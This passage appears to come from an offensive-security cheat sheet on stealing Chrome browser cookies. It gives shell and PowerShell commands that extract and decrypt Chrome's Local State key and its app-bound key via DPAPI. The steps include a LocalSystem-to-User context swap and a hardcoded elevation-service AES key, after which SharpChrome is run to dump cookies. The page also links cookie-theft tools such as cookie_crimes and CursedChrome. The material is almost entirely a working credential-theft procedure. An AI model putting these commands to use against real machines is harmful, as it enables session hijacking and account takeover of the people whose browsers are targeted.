 Local state key manual decryption (via DPAPI):

```
$ get C:\Users\user\AppData\Local\Google\Chrome\User Data\Local State
$ cat 'Local State' | jq '.os_crypt.encrypted_key' -r | base64 -d | tail -c +6 | base64 -w0; echo
PS > Add-Type -AssemblyName System.Security
PS > $decrypted = [Convert]::ToBase64String([System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String("<BASE64_BLOB>"), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))
PS > !echo -n $decrypted | base64 -d | od -v -An -tx1 | tr -d ' \n'; echo
PS > .\SharpChrome.exe cookies /statekey:$stateKey
```

App-bound local state key manual decryption (via DPAPI) doing LocalSystem to User context swap:

```
$ get C:\Users\user\AppData\Local\Google\Chrome\User Data\Local State
$ cat 'Local State' | jq '.os_crypt.app_bound_encrypted_key' -r | base64 -d | tail -c +5 | base64 -w0; echo
PS (LocalSystem) > Add-Type -AssemblyName System.Security
PS (LocalSystem) > $systemDecrypted = [Convert]::ToBase64String([System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String("<BASE64_BLOB>"), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))
PS (User) > $userDecrypted = [System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($systemDecrypted), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
PS (User) > [Text.Encoding]::ASCII.GetString($userDecrypted)
# Chromium
PS (User) > $stateKey = ($userDecrypted[-32..-1] | % ToString x2) -join ''
# Chrome
$ python -c "import binascii; from Crypto.Cipher import AES; user_decrypted = '$userDecrypted'; decrypted_key = binascii.a2b_base64(user_decrypted)[-61:]; elevation_service_key = binascii.a2b_base64('sxxuJBrIRnKNqcH6xJNmUc/7lE0UOrgWJ2vMbaAoR4c='); cipher = AES.new(elevation_service_key, AES.MODE_GCM, nonce=decrypted_key[1:1+12]); print(cipher.decrypt_and_verify(decrypted_key[13:45], decrypted_key[45:]).hex())"
PS (User) > .\SharpChrome.exe cookies /statekey:$stateKey
```


#### Tools

##### cookie_crimes

{% embed url="https://twitter.com/an0n_r0/status/1605714291717554185" %}

- [https://mango.pdf.zone/stealing-chrome-cookies-without-a-password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [https://github.com/defaultnamehere/cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)

##### CursedChrome

- [https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension](https://www.ired.team/offensive-security/lateral-movement/man-in-the-browser-via-chrome-extension)
- [https://github.com/mandatoryprogrammer/CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
